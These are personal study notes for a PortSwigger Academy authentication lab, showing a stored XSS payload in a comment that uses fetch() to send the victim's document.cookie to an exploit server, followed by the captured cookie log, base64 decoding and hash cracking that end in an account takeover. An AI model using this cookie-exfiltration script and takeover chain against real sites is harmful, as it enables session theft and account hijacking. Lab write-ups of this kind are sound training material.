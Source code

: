```yaml
---
post_group: cybersecurity-study-notes
title: PortSwigger Academy notes - Authentication
published: false
---
```


1. Log in as wiener:peter
2. I tried adding a comment with <script>alert('xss')</script> and it actually worked. Zero effort...
3. Since HttpOnly is not set, the cookie can be obtained with JS document.cookie.
4. There is an exploit server in the lab! How neat. Let's send the cookie to the server.
5. I can make a get request with the cookie as a parameter. How do I target specifically carlos? Weirdly enough the 'My account' link has the username written on it. I'll just get the element and parse it.
6. Even if requests are blocked by CORS, it still works
```
<script>
document.querySelector('a[href^="/my-account?id="]').href.includes('carlos') ? fetch('https://exploit-0a9e00c6046d9469c0b90939013c009f.web-security-academy.net/exploit?cookie=' + document.cookie) : null
</script>
```
7. Good enough, I got this:
```
10.0.4.148      2022-06-20 12:11:46 +0000 "GET /exploit?cookie=secret=2d1hi2Xo3bCUPdqpDfu7o1qwswaZoFSg;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
```
```
echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 --decode
carlos:26323c16d5f4dabff3bb136f2460a943
```
8. Just like the text hinted, I just tried pasting the hash in google and got 'onceuponatime'
9. I log in using carlos:onceuponatime and click "Delete account"
10. Done!